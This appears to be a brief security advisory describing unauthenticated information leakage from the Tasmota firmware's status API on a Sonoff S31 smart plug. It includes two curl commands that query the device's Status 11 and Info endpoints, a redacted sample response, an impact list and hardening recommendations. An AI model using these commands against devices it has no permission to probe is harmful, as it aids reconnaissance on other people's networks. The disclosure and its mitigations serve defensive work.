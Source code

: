 #  Information Leakage via Status API

## 📋 Summary
The Tasmota firmware version 15.0.1 running on the Sonoff S31 smart plug exposes sensitive internal data to any device on the same network without requiring authentication. Using the `Status 11` and `Info` commands, an attacker can retrieve details about the device’s network configuration, uptime, firmware, and MQTT setup.

##  Example Commands
```bash
curl "http://172.21.56.214/cm?cmnd=Status%2011"
curl "http://172.21.56.214/cm?cmnd=Info"
```

## Sample Response
```bash
{
  "StatusNET": {
    "Hostname": "tasmota-XXXX",
    "IPAddress": "172.21.56.214",
    "Gateway": "172.21.56.1",
    "Mac": "A0:20:A6:xx:xx:xx",
    ...
  }
}
```

## Impact 
- Reveals Wi-Fi network details (SSID, MAC address)

- Aids attacker reconnaissance

- Can be used to fingerprint and track devices

- Makes brute-force and spoofing attacks easier

## Recommendation
- Enable authentication for web and API access: SetOption13 1

- Avoid exposing Tasmota to the public internet

- Place the plug on a segmented IoT VLAN to limit who can access these endpoints

##  Additional Recommendations

- Require authentication for all API and web access using `SetOption13 1`
- Isolate the plug on a separate VLAN or guest Wi-Fi network
- Block port 80 from untrusted IP addresses at the router/firewall
- Disable MQTT discovery using `SetOption19 0`
- Monitor device logs for unexpected IP requests
